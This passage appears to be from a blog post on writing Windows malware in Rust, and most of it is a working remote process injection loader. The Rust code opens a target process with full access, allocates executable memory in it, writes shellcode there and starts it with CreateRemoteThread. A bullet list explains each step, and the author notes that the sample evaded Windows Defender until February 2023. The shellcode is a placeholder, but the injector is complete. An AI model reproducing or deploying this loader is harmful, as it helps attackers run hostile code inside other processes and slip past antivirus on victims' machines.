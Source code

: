 ```rs
fn remote_injection() {
    let shellcode : [u8; SHELLCODESIZE] = [SHELLCODEGOESHERE];
    let args: Vec<String> = env::args().collect();
    let pid = find_proc_id(&args[1]);
    let mut tid = 0;
    println!("[+] Found Process ID : {}", pid);
    let h_process = unsafe {kernel32::OpenProcess(PROCESS_ALL_ACCESS, winapi::shared::ntdef::FALSE.into(), pid)};
    println!("[+] Found Process Handle for process {} : {:?}", pid, &h_process);
    let base_addr = unsafe {kernel32::VirtualAllocEx(h_process, ptr::null_mut(), shellcode.len() as u64, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)};
    println!("[+] Allocated {} bytes of memory for shellcode", shellcode.len());
    let mut nbytes = 0;
    unsafe {kernel32::WriteProcessMemory(h_process, base_addr, shellcode.as_ptr() as _, shellcode.len() as u64, &mut nbytes);}
    println!("[+] Copied shellcode to process memory ");
    let h_thread = unsafe {kernel32::CreateRemoteThread(h_process, ptr::null_mut(), 0, Some(std::mem::transmute(base_addr)), ptr::null_mut(), 0, &mut tid)};
    println!("[+] Thead Created \n Thread ID : {}", tid);
    unsafe {kernel32::CloseHandle(h_process);}
}

fn main() {
    remote_injection();
    unsafe {MessageBoxA(ptr::null_mut(),"HAHAHA , Your System is Hacked\0".as_ptr() as *const i8,"Owned Boiii\0".as_ptr() as *const i8,0x00004000);}
}
```

Remote Process Injection - CreateRemoteThread Workflow :-

* We input a process name in command-line arguement to our sample , eg:- `rust_mal.exe notepad.exe`
* The pid of given process is looked up with the help of [CreateToolhelp32Snapshot](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) Windows API function
* `OpenProcess` opens the given remote process with `PROCESS_ALL_ACCESS` (Gives all possible access rights)
* `VirtualAllocEx` allocate memory in the remote process with RWX permission
* Write shellcode to the allocated memory using `WriteProcessMemory` 
* Create a thread in the remote process with `CreateRemoteThread` function, just like in previous sample we point the base address to the shellcode memory
* Finally close the process handle

In the latest Windows Defender update this sample was easily caught, but when I tested this sample before `14/02/2023` it was working rather well.

<video controls>
<source src="/assets/videos/rust_remote_thread.mp4" type="video/mp4">
</video>
<br>



## Final Thoughts
